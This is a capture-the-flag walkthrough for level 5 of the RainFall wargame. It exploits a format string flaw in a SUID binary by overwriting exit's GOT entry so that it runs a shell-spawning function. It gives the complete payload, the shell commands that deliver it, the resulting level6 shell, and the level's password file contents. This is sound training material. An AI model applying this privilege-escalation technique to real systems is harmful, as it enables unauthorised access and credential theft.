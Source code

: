 # Walkthrough for Level 5

## Understanding the Binary

This binary is vulnerable to a format string attack. The `n` function passes user input directly to `printf` as a format
string instead of as plain text. This allows us to write to arbitrary memory locations. Additionally, there is a
function called `o` which is never called, but it spawns a shell. Since `level5` is a SUID binary owned by `level6`, the
resulting shell will run with the permissions of `level6`, allowing us to read their password. At the end of the `n`
function, there is a call to `exit`, a libc function. We will use a format string attack to overwrite the address of the
`exit` function in the Global Offset Table (GOT) with the address of the `o` function. As a result, when the program
calls `exit`, it will actually call the `o` function, spawning a shell.

## Getting the Address of the `o` function

```shell
┌──(kali㉿kali)-[~/rainfall/level5]
└─$ nm ./level5 | grep "T o"
080484a4 T o
```

Decomposing this address into two short integers, we get `0x0804` for the high-order bytes and `0x84a4` for the
low-order bytes.

## Getting the address of the `exit` libc function in the GOT

Using `ghidra` we get the exit function's address: `0x08049838`

Is also possible to get this address using `objdump`:
```shell
level5@RainFall:~$ objdump -R ./level5 | grep " exit"
08049838 R_386_JUMP_SLOT   exit
```

As in the previous level, instead of writing a long integer (4 bytes), we’ll write two short integers (2 bytes each).
To do that, we’ll use the specifier: `%hn`.

We want to write 0x080484a4. This means 0x0804 (2052 in decimal) in the high-order bytes and 0x84a4 (33956 in decimal)
in the low-order bytes.

We want to write these values at address 0x08049838: 0x84a4 (the lower two bytes) at 0x08049838, and 0x0804 (the higher
two bytes) at 0x0804983a (which is 0x08049838 + 2).

In little-endian, this address becomes `\x38\x98\x04\x08` for the lower two bytes and `\x3a\x98\x04\x08` for the higher
two bytes. Or concatenated in `\x38\x98\x04\x08\x3a\x98\x04\x08`

## Determining the position of our argument on the Stack

To determine the position of our argument on the stack, we can run the binary with a format string that prints several
values from the stack

```shell
level5@RainFall:~$ ./level5 
AAAA.%p.%p.%p.%p.%p
AAAA.0x200.0xb7fd1ac0.0xb7ff37d0.0x41414141.0x2e70252e
```

We can see that the 4th argument on the stack is 0x41414141 (which corresponds to AAAA in hexadecimal), so we will use 4
as our starting positional parameter: `%4$n`. Based on the previous step, we need two positional parameters: %4$hn for
the lower-order bytes and %5$hn for the higher-order bytes.

## Padding the format string

`AAAA%96x%4$n` will write the value 100 at the address 0x41414141. The `%96x` specifier will pad the output with 96
characters, resulting in a total of 100 characters printed (four from AAAA and 96 from the padding).

## Crafting the Exploit

The resulting exploit is: `\x38\x98\x04\x08\x3a\x98\x04\x08%2044x%5$hn%31904x%4$hn`

- \x38\x98\x04\x08 or 0x08049838 (in reverse order) points to the high order bytes.
- \x3a\x98\x04\x08 or 0x0804983a (in reverse order) points to the low order bytes.
- %2044x will write 2044 bytes on the standard output.
- %5$hn will write 8 + 2044 = 2052 bytes (or 0x0804) at the second address specified (0x0804983a).
- %31904x will write 31904 bytes on the standard output. 
- %4$hn will write 8 + 2044 + 31904 = 33956 (or 0x84A4) at the first address specified (0x08049838).

We use Python to generate the exploit and save it to a file:
```shell
python2 -c 'print "\x38\x98\x04\x08\x3a\x98\x04\x08%2044x%5$hn%31904x%4$hn"' > /tmp/exploit5
```

## Running the Exploit

We use the `cat` command with the `-` option because we need to keep an interactive shell open to control the shell
spawned by the `o` function.

```shell
level5@RainFall:~$ cat /tmp/exploit5 - | ./level5
8: 200 ... SNIP... b7fd1ac0
...SNIP... 
whoami
level6
```

## Reading the Password

```shell
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

We can now log in as `level6` using the password we just found.
